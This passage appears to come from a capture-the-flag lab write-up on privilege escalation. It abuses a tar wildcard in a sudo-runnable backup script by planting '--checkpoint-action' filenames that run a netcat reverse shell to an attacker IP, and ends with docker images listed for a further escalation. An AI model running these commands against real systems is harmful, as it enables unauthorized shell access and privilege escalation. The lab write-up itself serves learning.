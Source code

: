 This script compresses files using `tar` and a wildcard. Checking on GTFOBins, we know we can exploit this.

~~~
jake@the-marketplace:/home/marketplace$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
~~~

Checking our privileges will reveal that we can run this backup script as `michael` without password:

~~~
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
~~~

Start a listener (`nc -nlvp 4444`) and run the following commands on the target:

~~~
jake@the-marketplace:~$ cat > /opt/backups/shell.sh << EOF
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.50.72 4444 >/tmp/f
EOF
jake@the-marketplace:~$ chmod +x /opt/backups/shell.sh
jake@the-marketplace:~$ touch "/opt/backups/--checkpoint=1"
jake@the-marketplace:~$ touch "/opt/backups/--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:~$ cd /opt/backups/
jake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh
~~~

On the listener, a shell is now spawned, and we are now connected as `michael`:

~~~
┌──(kali㉿kali)-[/data/The_Marketplace/files]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.4.48] 46366
michael@the-marketplace:/opt/backups$ id
id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
~~~

## docker

Listing the images, we see that alpine is available:

~~~
michael@the-marketplace:/opt/backups$ docker image ls
docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        8 months ago        2.16GB
nginx                        latest              4bb46517cac3        9 months ago        133MB
node                         lts-buster          9c4cc2688584        9 months ago        886MB
mysql                        latest              0d64f46acfd1        9 months ago        544MB
alpine                       latest              a24bb4013296        11 months ago       5.57MB
~~~
